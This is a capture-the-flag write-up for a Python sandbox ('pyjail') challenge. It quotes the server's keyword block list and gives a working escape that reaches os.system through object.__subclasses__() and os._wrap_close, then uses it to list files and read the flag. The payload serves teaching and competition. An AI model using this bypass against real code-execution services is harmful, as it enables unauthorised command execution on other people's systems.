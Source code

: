 # Outdated

> I found this old website that runs your python code, but the security hasn't been updated in years
> I'm sure there's a flag floating around, can you find it?

> You can run python code from anywhere! Upload code from your phone! (Note: code cannot import libraries or use some keywords. Please stop trying to.)

This is a basic pyjail challenge. Imports and certain keywords are blocked. The source code of the server is provided, so we can see what exactly is allowed.

Notably:
```python
# app.py
blocked = ["__import__", "globals", "locals", "__builtins__", "dir", "eval", "exec", "breakpoint", "callable", "classmethod", "compile", "staticmethod", "sys", "__importlib__", "delattr", "getattr", "setattr", "hasattr", "sys", "open"]
```

There are a few other checks, including one that blocks non-ASCII characters, and a limit on the number of lines in the file.

<details>
<summary>Full `app.py`</summary>
    
``` python
from flask import Flask, request, render_template, redirect
from ast import parse
import re
import subprocess
import uuid

app = Flask(__name__)
app.static_folder = 'static'
app.config['UPLOAD_FOLDER'] = './uploads'

@app.route('/')
def index():
    return render_template('home.html')

@app.route('/upload')
def upload():
    return render_template('index.html')

@app.route('/submit', methods=['GET', 'POST'])
def submit():
    if 'file' not in request.files:
        return redirect('/')
    f = request.files['file']
    fname = f"uploads/{uuid.uuid4()}.py"
    f.save(fname)
    code_to_test = re.sub(r'\\\s*\n\s*', '', open(fname).read().strip())
    if not code_to_test:
        return redirect('/')
    tested = test_code(code_to_test)
    if tested[0]:
        res = ''
        try:
            ps = subprocess.run(['python', fname], timeout=5, capture_output=True, text=True)
            res = ps.stdout
        except:
            res = 'code timout'
        return render_template('submit.html', code=code_to_test.split('\n'), text=res.strip().split('\n'))
    else:
        return render_template('submit.html', code=code_to_test.split('\n'), text=[tested[1]])

@app.route('/static/<path:path>')
def static_file(filename):
    return app.send_static_file(filename)

def test_for_non_ascii(code):
    return any(not (0 < ord(c) < 127) for c in code)

def test_for_imports(code):
    cleaned = clean_comments_and_strings(code)
    return 'import ' in cleaned

def test_for_invalid(code):
    if len(code) > 1000:
        return True
    try:
        parse(code)
    except:
        return True
    return False

blocked = ["__import__", "globals", "locals", "__builtins__", "dir", "eval", "exec",
        "breakpoint", "callable", "classmethod", "compile", "staticmethod", "sys",
        "__importlib__", "delattr", "getattr", "setattr", "hasattr", "sys", "open"]

blocked_regex = re.compile(fr'({"|".join(blocked)})(?![a-zA-Z0-9_])')

def test_for_disallowed(code):
    code = clean_comments_and_strings(code)
    return blocked_regex.search(code) is not None

def test_code(code):
    if test_for_non_ascii(code):
        return (False, 'found a non-ascii character')
    elif test_for_invalid(code):
        return (False, 'code too long or not parseable')
    elif test_for_imports(code):
        return (False, 'found an import')
    elif test_for_disallowed(code):
        return (False, 'found an invalid keyword')
    return (True, '')

def clean_comments_and_strings(code):
    code = re.sub(r'[rfb]*("""|\'\'\').*?\1', '', code,
                  flags=re.S)
    lines, res = code.split('\n'), ''
    for line in lines:
        line = re.sub(r'[rfb]*("|\')(.*?(?!\\).)?\1',
                      '', line)
        if '#' in line:
            line = line.split('#')[0]
        if not re.fullmatch(r'\s*', line):
          res += line + '\n'
    return res.strip()

if __name__ == '__main__':
    app.run(debug=True)
```
</details>

Sidenote: when I was solving this challenge I didn't realize the source code was provided, which didn't make a big difference but did lead to me wasting some time experimenting with which keywords were blocked.

## Solution

Most of the obvious solutions are prevented by the blocked keywords, and lack of imports. 

I started by printing out all of the subclasses of `object` to see what classes I had access to:
``` python
print(object.__subclasses__())
```

This returned a long list of classes to look through. I ended up just `CMD+F`ing for `os` to try to find any classes of interest, and the only result was `os._wrap_close`.

I tried googling this class since I had no idea was it was, but surprisingly I found absolutely zero information about it, so I'm still not sure what it really is. However I did find [one useful page](https://blog.p6.is/Python-SSTI-exploitable-classes/) detailing how it could be exploited.

From that page:
``` python
[].__class__.__mro__[1].__subclasses__()[127].__init__.__globals__['system']('ls')
```

It looks like the initializer for `os._wrap_close` has a reference to the `system` function, which can be used to execute shell commands!

We just need to grab that class from the list we got earlier, and then we can use the `ls` command to look around the file system:
``` python
print([x for x in object.__subclasses__() if x.__name__ == "_wrap_close"][0].__init__.__globals__['system']('ls'))
```

```
Dockerfile
__pycache__
app.py
flag-b5a31b65-07a2-479c-bed4-f371a9bbdd1d.txt
run.sh
static
templates
uploads
```

There's the flag!

Read the file with `cat`:
``` python
print([x for x in object.__subclasses__() if x.__name__ == "_wrap_close"][0].__init__.__globals__['system']('cat flag-b5a31b65-07a2-479c-bed4-f371a9bbdd1d.txt'))
```

And we get the flag:
```
tjctf{oops_bad_filter_3b582f74}
```
